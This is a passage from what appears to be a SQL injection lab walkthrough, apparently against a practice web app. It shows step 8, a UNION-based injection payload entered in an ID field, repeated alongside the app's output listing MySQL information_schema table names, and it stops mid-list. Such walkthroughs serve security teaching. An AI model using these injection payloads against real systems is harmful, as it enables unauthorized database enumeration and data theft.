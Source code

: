 
8. Display all tables in information_schema:

ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: ALL_PLUGINS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: APPLICABLE_ROLES
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: CHARACTER_SETS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: CHECK_CONSTRAINTS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: COLLATIONS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: COLLATION_CHARACTER_SET_APPLICABILITY
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: COLUMNS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: COLUMN_PRIVILEGES
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: ENABLED_ROLES
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: ENGINES
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: EVENTS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: FILES
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: GLOBAL_STATUS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: GLOBAL_VARIABLES
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: KEYWORDS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: KEY_CACHES
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: KEY_COLUMN_USAGE
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: OPTIMIZER_TRACE
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: PARAMETERS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: PARTITIONS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 